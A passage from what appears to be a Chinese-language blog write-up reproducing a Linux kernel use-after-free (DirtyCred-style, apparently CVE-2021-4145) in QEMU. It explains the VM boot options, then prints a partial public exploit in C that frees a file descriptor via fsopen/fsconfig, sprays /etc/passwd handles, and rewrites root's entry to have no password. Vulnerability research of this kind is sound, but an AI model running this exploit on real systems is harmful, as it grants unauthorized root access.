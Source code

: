 最后一行用于调试，大家不需要调试可以先注释掉，其它参数解释如下：

1.  `-m 256M`: 指定虚拟机的内存大小为 256MB。
2.  `-smp 2,cores=2,threads=1`: 指定使用 2 个 CPU，每个 CPU 拥有 2 个核心，每个核心只有一个线程。
3.  `-kernel ./bzImage`: 指定了内核文件。
4.  `-initrd ./rootfs.img`: 指定我们制作的 Linux 文件系统。
5.  `-append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet nokaslr"`: 指定了传递给内核的启动参数。这里的 quiet 可以让内核不输出很多信息直接启动，`nokaslr` 一定要加，否则断点无法命中。
6.  `-cpu qemu64`: 指定使用 QEMU 的默认 x86_64 CPU 模拟器。
7.  `-netdev user,id=t0,`: 指定了用户模式网络设备。
8.  `-device e1000,netdev=t0,id=nic0`: 指定了要添加到虚拟机的网络设备。
9.  `-nographic`: 无需图形界面的情况下运行 QEMU。

* * *

现在在目录下应该有了 `start.sh`，`bzImage` 和 `rootfs.img`，文件系统可以提前打包 exp 进去。

漏洞验证
----

### EXP 验证

用网上通用的一个 EXP。

```
 got uaf fd %d, start spray....\n", uaf_fd);    for (int i = 0; i < MAX_FILE_NUM; i++) {        fds[i] = open("/etc/passwd", O_RDONLY);        if (fds[i] < 0) {            perror("open file");            printf("%d\n", i);        }        if (syscall(__NR_kcmp, getpid(), getpid(), KCMP_FILE, uaf_fd, fds[i]) ==            0) {            found = 1;            printf("[!] found, file id %d\n", i);            for (int j = 0; j < i; j++)                close(fds[j]);            break;        }    }    if (found) {        sleep(4);        return 0;    }    return -1;}void trigger() {    int fs_fd = syscall(__NR_fsopen, "cgroup", 0);    if (fs_fd < 0) {        perror("fsopen");        die("");    }    symlink("./data", "./uaf");    uaf_fd = open("./uaf", 1);    if (uaf_fd < 0) {        die("failed to open symbolic file\n");    }    if (syscall(__NR_fsconfig, fs_fd, 5, "source", 0, uaf_fd)) {        perror("fsconfig");        exit(-1);    }    // free the uaf fd    close(fs_fd);}void loop() {    trigger();    pthread_t p_id;    pthread_create(&p_id, NULL, slow_write, NULL);    pthread_t p_id_cmd;    pthread_create(&p_id_cmd, NULL, write_cmd, NULL);    exit(spray_files());}int main(void) {    cwd = get_current_dir_name();    syscall(__NR_mmap, 0x1ffff000ul, 0x1000ul, 0ul, 0x32ul, -1, 0ul);    syscall(__NR_mmap, 0x20000000ul, 0x1000000ul, 7ul, 0x32ul, -1, 0ul);    syscall(__NR_mmap, 0x21000000ul, 0x1000ul, 0ul, 0x32ul, -1, 0ul);    use_temporary_dir();    do_sandbox_namespace();    return 0;}

```

编译命令为 `gcc -g exp.c -o exp -static -lpthread`

这里我很简单地将 `/etc/passwd` 的第一项写成 `root::0:0:root:/root:/bin/sh\n\n`，去掉其中的 `x` 让它没有密码。

![](https://xia0ji233.pro/2024/03/13/CVE-2021-4145/1.png)

可以发现漏洞是存在的。

### 原理概述

通过阅读 [论文原文](https://zplin.me/papers/DirtyCred.pdf) 能大概知道 EXP 的利用思路。
